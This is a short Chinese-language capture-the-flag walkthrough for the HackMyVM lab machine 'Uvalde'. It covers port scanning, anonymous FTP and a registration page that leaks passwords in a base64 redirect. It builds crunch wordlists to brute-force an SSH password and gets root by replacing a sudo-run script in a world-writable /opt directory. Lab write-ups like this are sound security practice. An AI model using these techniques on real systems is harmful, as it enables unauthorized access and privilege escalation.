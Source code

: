 # Uvalde

2025.02.21 https://hackmyvm.eu/machines/machine.php?vm=Uvalde

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 匿名登陆，查看 output 文件内容，发现一个用户名 matthew 。

扫描 80 web，发现有登陆页面和注册页面，在注册页面中 http://192.168.5.40/create_account.php 输入 matthew 显示用户名已经存在，输入新用户名，发现 Location 会回显用户密码：

```
curl --data-urlencode "username=test1"  http://192.168.5.40/create_account.php -vv

Location: success.php?dXNlcm5hbWU9dGVzdDEmcGFzc3dvcmQ9dGVzdDEyMDI1QDIxOTE=
```

解密后得到 username=test1&password=test12025@2191 使用此凭据登陆，没发现什么内容。经过多次注册，发现用户的密码格式为: 用户名+年@四位随机数，进行密码字典构造，尝试破解 matthew 用户的密码：

```
crunch 16 16 -t dddddddddddd%%%% -p matthew2025@ -o pass.txt

crunch 16 16 -t matthew2025@%%%%  -l aaaaaaaaaaa@aaaaa
```

爆破出密码：matthew2023@1554 ssh 登陆该用户，得到 user flag：

```
matthew@uvalde:~$ cat user.txt
6e4136fbed8f8c691996dbf42697d460
```

sudo -l 发现 (ALL : ALL) NOPASSWD: /bin/bash /opt/superhack 查看该脚本内容，没有可以利用的地方，发现 /opt 目录对其他组用户可以写，所以直接删除该文件，然后重建：

```
cd /opt
rm superhack
echo '/bin/bash -p' > superhack
chmod +x superhack
sudo /bin/bash /opt/superhack
root@uvalde:~# cat root.txt
59ec54537e98a53691f33e81500f56da
```
